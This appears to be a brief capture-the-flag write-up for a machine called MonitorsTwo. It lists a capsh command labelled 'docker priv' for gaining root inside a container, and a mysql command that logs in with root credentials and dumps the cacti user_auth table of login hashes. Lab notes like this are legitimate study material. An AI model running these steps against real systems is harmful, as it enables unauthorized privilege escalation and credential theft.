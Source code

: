 # MonitorsTwo writeups
### Review
docker priv
'''
capsh --gid==0 --uid=0 --
'''
run mysql command in socket
'''
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth;"
'''
